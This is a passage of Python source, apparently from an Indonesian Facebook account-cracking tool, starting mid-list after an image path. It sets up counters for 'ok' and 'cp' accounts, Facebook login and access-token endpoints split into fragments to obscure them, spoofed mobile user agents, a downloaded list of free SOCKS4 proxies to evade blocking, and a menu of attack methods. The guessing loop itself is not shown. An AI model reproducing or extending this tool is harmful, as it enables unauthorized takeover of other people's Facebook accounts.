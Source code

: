  P, M, H, K, B, U, O, N]
warna = random.choice(my_color)
############################ RESPONSE FACEBOOK ###########################################
data,data2={},{}
aman,cp,salah=0,0,0
ubahP,pwBaru=[],[]
Apk = []
ok = []
cp = []
id = []
user = []
loop = 0
url_lookup = "https://lookup-id.com/"
url_mb = "https://mbasic.facebook.com"
url_ip = "https://www.httpbin.org/ip"
url_graph = "https://graph.facebook.com/{}"
header_grup = {"user-agent": "Mozilla/5.0 (Linux; Android 7.1.1; CPH1723 Build/N6F26Q) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.3163.98 Mobile Safari/E7FBAF"}
bulan_ttl = {"01": "Januari", "02": "Februari", "03": "Maret", "04": "April", "05": "Mei", "06": "Juni", "07": "Juli", "08": "Agustus", "09": "September", "10": "Oktober", "11": "November", "12": "Desember"}
hhhh, iiii, jjjj, kkkk = "index.php?", "next=https%3A%2F%2Fdevelopers.facebook.com", "%2Ftools%2Fdebug", "%2Faccesstoken%2F"
dddd, eeee, ffff, gggg = "login", "device-based", "validate-password", "?shbl=0"
aaaa, bbbb, cccc = "tools", "debug", "accesstoken"
bahasa = "id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7"

##############################
 # USER AGENT #
ugen2=['Mozilla/5.0 (Linux; Android 7.1.1; CPH1723) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Mobile Safari/537.36']
ugen=['Mozilla/5.0 (Linux; Android 7.1.1; CPH1723) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Mobile Safari/537.36']

try:
    prox= requests.get('https://api.proxyscrape.com/v2/?request=displayproxies&protocol=socks4&timeout=100000&country=all&ssl=all&anonymity=all').text
    open('.proxy.txt','w').write(prox)
except Exception as e:
    exit(e)


def jalan(z):
    for e in z + '\n':
        sys.stdout.write(e)
        sys.stdout.flush()
        time.sleep(0.03)
     
def mentod():
    print('%s══════════════════════════════════════════════════════\n %s Setting Methode Menu%s'%(N,BM,N))
    print(' %s[%s1%s] Method 1 free (%sRecommended%s)'%(N,H,N,H,N))
    print(' [%s2%s] Method 2 mbasic (%sRecommended%s)'%(H,N,H,N))
    print(' [%s3%s] Method 3 mobile (%sRecommended%s)'%(H,N,H,N))
#-------- LOADING ANIMASI ------------
def loading():
    animation = ["[\x1b[1;91m■\x1b[0m□□□□□□□□□]","[\x1b[1;92m■■\x1b[0m□□□□□□□□]", "[\x1b[1;93m■■■\x1b[0m□□□□□□□]", "[\x1b[1;94m■■■■\x1b[0m□□□□□□]", "[\x1b[1;95m■■■■■\x1b[0m□□□□□]", "[\x1b[1;96m■■■■■■\x1b[0m□□□□]", "[\x1b[1;97m■■■■■■■\x1b[0m□□□]", "[\x1b[1;98m■■■■■■■■\x1b[0m□□]", "[\x1b[1;99m■■■■■■■■■\x1b[0m□]", "[\x1b[1;910m■■■■■■■■■■\x1b[0m]"]
    for i in range(50):
        time.sleep(0.1)
        sys.stdout.write(f"\r {N}[{H}•{N}] {H}Loading...{N} " + animation[i % len(animation)] +"\x1b[0m ")
        sys.stdout.flush()